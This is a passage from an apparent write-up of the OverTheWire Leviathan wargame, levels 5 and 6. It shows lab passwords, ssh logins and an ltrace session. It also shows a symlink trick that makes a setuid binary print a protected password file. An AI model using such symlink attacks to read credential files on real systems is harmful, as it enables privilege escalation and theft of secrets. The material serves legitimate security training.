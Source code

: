After c/p the binary to [REF1], one can easily get the password for the next level/

Password: **0dyxT7F4QD**


## Level5

After connecting to the specific level with `ssh` by typing
    *ssh leviathan5@leviathan.labs.overthewire.org -p 2223* 
with password 
    *0dyxT7F4QD*

one can come across a `leviathan5` binary which looks for a `/tmp/file.log` file
and prints its contents. After creating a symbolic link to our file of interest with 

    ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

we can easily leak the next level's password after rerunning the binary.

    leviathan5@gibson:~$ ./leviathan5 
    Cannot find /tmp/file.log
    leviathan5@gibson:~$ touch /tmp/file.log
    leviathan5@gibson:~$ ./leviathan5 
    leviathan5@gibson:~$ ltrace ./leviathan5 
    __libc_start_main(0x804910d, 1, 0xffffd384, 0 <unfinished ...>
    fopen("/tmp/file.log", "r")                                                               = 0
    puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
    )                                                         = 26
    exit(-1 <no return ...>
    +++ exited (status 255) +++
    leviathan5@gibson:~$ echo "lala" > /tmp/file.log
    leviathan5@gibson:~$ ./leviathan5 
    lala
    leviathan5@gibson:~$ ltrace ./leviathan5 
    __libc_start_main(0x804910d, 1, 0xffffd384, 0 <unfinished ...>
    fopen("/tmp/file.log", "r")                                                               = 0
    puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
    )                                                         = 26
    exit(-1 <no return ...>
    +++ exited (status 255) +++
    leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log 
    leviathan5@gibson:~$ ./leviathan5 
    szo7HDB88w

Password: **szo7HDB88w**


## Level6

After connecting to the specific level with `ssh` by typing
    *ssh leviathan6@leviathan.labs.overthewire.org -p 2223* 
with password 
    *szo7HDB88w*

one can find a binary expecting a 4 digit number as an argument and spawning a 
shell with `leviathan7` privileges if given number is correct. A quick and straight-
forward solution is to create a simple bruteforcing script under `/tmp/` which looks
like this: 


[REF1]: https://www.rapidtables.com/convert/number/binary-to-string.html